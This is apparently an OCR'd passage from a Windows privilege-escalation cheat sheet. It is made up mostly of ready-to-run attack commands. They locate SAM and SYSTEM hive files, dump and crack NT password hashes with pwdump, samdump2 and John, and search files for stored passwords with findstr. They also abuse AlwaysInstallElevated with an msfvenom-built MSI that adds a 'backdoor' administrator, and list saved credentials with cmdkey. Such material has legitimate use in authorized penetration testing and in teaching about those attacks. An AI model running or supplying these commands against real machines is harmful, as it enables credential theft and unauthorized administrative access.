 ## Looting for passwords

##### SAM and SYSTEM files

```
# Usually %SYSTEMROOT% = C:\Windows
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

Generate a hash file for John using `pwdump` or `samdump2`.

```
pwdump SYSTEM SAM > /root/sam.txt
samdump2 SYSTEM SAM -o sam.txt
```

Then crack it with `john -format=NT /root/sam.txt`.

##### Search for file contents

```
cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt
findstr /si password *.xml *.ini *.txt *.config
findstr /spin "password" *.*
```

## AlwaysInstallElevated

Check if these registry values are set to "1".

```
$ reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
$ reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Then create an MSI package and install it.

```
$ msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi
$ msiexec /quiet /qn /i C:\evil.msi
```

Technique also available in Metasploit : `exploit/windows/local/always_install_elevated`



## Runas

Use the `cmdkey` to list the stored credentials on the machine.

```powershell
cmdkey /list
Currently stored credentials:
 Target: Domain:interactive=WORKGROUP\Administrator
 Type: Domain Password
 User: WORKGROUP\Administrator
```
